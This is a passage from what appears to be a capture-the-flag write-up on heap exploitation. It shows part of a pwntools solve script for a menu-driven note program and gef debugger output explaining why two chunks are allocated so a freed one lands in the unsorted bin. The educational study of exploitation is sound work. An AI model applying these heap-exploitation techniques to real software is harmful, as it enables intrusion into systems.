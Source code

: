 ```python
    r.sendlineafter(b'Enter entry data:\n', content)

def show(index):
    r.sendlineafter(b'\n>>', b'2')
    r.sendlineafter(b'Enter entry index:\n', str(index).encode())

def update(index, content):
    r.sendlineafter(b'\n>>', b'3')
    r.sendlineafter(b'Enter entry index:\n', str(index).encode())
    r.sendlineafter(b'Enter data:\n', content)

def delete(index):
    r.sendlineafter(b'\n>>', b'4')
    r.sendlineafter(b'Enter entry index:\n', str(index).encode())

def win(index, content):
    r.sendlineafter(b'\n>>', b'5')
    r.sendlineafter(b'Enter the index:', str(index).encode())
    r.sendlineafter(b'Enter the data:', content.encode())

# Create two large chunks and free the first one
create(0x1000, b"A")
create(0x1000, b"A")
delete(0)

r.interactive()
```
{: file="solve.py" }

If you are wondering why we allocate two notes instead of one, the reason is that if we only allocate one memory block, as seen when that memory is freed, it gets consolidated into the top chunk instead of being placed in the **unsorted bins**.

```console
gef➤  heap chunks
Chunk(addr=0x5574140ce010, size=0x290, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00005574140ce010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x5574140ce2a0, size=0x20d70, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  top chunk
gef➤  x/gx &chunks
0x55741310b060 <chunks>:        0x00005574140ce2a0
```

But when we allocate a new memory block, we can see it is placed right after the first allocated memory, preventing the first memory from being consolidated back into the top chunk when freed:

```console
gef➤  x/2gx &chunks
0x55e16a81a060 <chunks>:        0x000055e16b7c42a0      0x000055e16b7c52b0
gef➤  heap bins unsorted
────────────────────────────────────────── Unsorted Bin for arena at 0x7f1b41e19c80 ──────────────────────────────────────────
[+] unsorted_bins[0]: fw=0x55e16b7c4290, bk=0x55e16b7c4290
 →   Chunk(addr=0x55e16b7c42a0, size=0x1010, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
[+] Found 1 chunks in unsorted bin.
```
